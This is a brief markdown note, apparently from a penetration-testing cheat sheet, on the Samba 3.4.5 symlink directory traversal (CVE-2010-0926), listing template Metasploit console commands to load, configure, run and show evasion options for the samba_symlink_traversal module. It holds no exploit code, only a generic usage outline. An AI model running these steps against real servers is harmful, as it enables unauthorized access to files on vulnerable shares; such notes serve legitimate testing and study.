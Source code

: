 ```yaml
---
description: Samba Symlink Directory Traversal
---
```


# Samba 3.4.5

[CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)

```
msf > use auxiliary/admin/smb/samba_symlink_traversal
msf auxiliary(samba_symlink_traversal) > show actions
    ...actions...
msf auxiliary(samba_symlink_traversal) > set ACTION < action-name >
msf auxiliary(samba_symlink_traversal) > show options
    ...show and set options...
msf auxiliary(samba_symlink_traversal) > run
```

```
msf auxiliary(admin/smb/samba_symlink_traversal) > show evasion
```
